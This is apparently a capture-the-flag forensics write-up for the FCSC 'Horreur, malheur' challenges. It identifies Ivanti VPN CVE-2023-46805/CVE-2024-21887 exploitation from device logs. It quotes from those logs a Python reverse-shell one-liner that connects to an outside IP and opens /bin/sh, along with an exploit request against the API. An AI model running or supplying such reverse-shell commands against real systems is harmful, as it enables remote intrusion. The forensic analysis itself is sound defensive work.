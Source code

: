 The flag is in `data/flag.txt`

## Horreur, malheur 2/5 - Accès initial

> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous focalisez maintenant votre attention sur les journaux. L'équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l'attaquant ainsi que l'adresse IP de ce dernier.
>
> Le flag est au format : FCSC{CVE-XXXX-XXXXX:<adresse_IP>}.

### Solution

Ok, so I know that a product is surely a VPN, with a particular version of build that is likely to be vulnerable to a known CVE.
After few search using the build version I'm almost sure that it's a VPN from Ivanti that is affected by CVE-2023-46805 and CVE-2024-21887 (which is coherent considering the dates in te logs). By looking at the description of the CVE, I understand that the attacker potentially creates a reverse shell/execute a spinnet of code on the server. Basically, the attack sends a payload on particular endpoints of the API to inject code that will be executed on the server.

So, I looked at the logs and especially at the requests made to the webserver (`grep` is your friend), which contains a lot of `404` return code (so `grep -v` is your friend again) and found some weird requests which looks like that :
```
GET /api/v1/cav/client/health?cmd=K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ%3D
```
It tried first to decode it in base64 (or other base) and tried some various compression algorithm but it still remains unreadble and have no common file header.

Because a part of the software is using python, I though that maybe the payload was executing some python especially as it's a common practice to create reverse shells/RCE with python. And then I found this line (`grep` is always your friend):
```
python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

So, I have the CVEs (I first entered the wrong one because I forget which one allows to execute remote code and which one allows some privesc), and the IP `20.13.3.0`.

*Note : the attacker send this payload which is a bash command injection that is proved by this line inside the logs : /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socke...  The payload create a TCP socket (that is also visible in the logs) and connect to the attacker IP via the port 44444 and start a `sh` shell, whith stdin, stdout and stderr redirected to the socket*

## Horreur, malheur 3/5 - Simple persistance

> Vous avez réussi à déchiffrer l'archive. Il semblerait qu'il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d'intégrité de l'équipement.
>
> À l'aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d'une persistance déposée et utilisée par l'attaquant.
